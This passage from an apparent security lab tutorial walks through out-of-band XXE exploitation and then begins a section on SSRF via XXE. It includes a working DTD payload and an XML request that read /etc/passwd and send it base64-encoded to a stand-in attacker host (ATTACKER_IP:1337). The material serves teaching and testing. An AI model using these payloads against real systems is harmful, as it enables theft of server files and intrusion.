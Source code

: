 Send the modified HTTP request.

Modified HTTP request with the payload

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.

Python webserver receives a connection

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as sample.dtd. The payload below will exfiltrate the contents of /etc/passwd and send the response back to the attacker-controlled server:

<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;

DTD Payload Explained

The DTD begins with a declaration of an entity %cmd that points to a system resource. The %cmd entity refers to a resource within the PHP filter protocol php://filter/convert.base64-encode/resource=/etc/passwd. It retrieves the content of /etc/passwd, a standard file in Unix-based systems containing user account information. The convert.base64-encode filter encodes the content in Base64 format to avoid formatting problems. The %oobxxe entity contains another XML entity declaration, exfil, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with %cmd, representing the Base64-encoded content of /etc/passwd. When %oobxxe; is parsed, it creates the exfil entity that connects to an attacker's server (http://ATTACKER_IP:1337/). The parameter ?data=%cmd sends the Base64-encoded content from %cmd.

Go back to the repeater and change your payload to:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>

Change the payload to the updated external DTD file

Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.

Two external connections received in the webserver with the exfiltrated data

Decoding the exfiltrated base64 data will show that it contains the base64 value of /etc/passwd.

### SSRF + XEE

Server-Side Request Forgery (SSRF) attacks occur when an attacker abuses functionality on a server, causing the server to make requests to an unintended location. In the context of XXE, an attacker can manipulate XML input to make the server issue requests to internal services or access internal files. This technique can be used to scan internal networks, access restricted endpoints, or interact with services that are only accessible from the server’s local network.
Internal Network Scanning

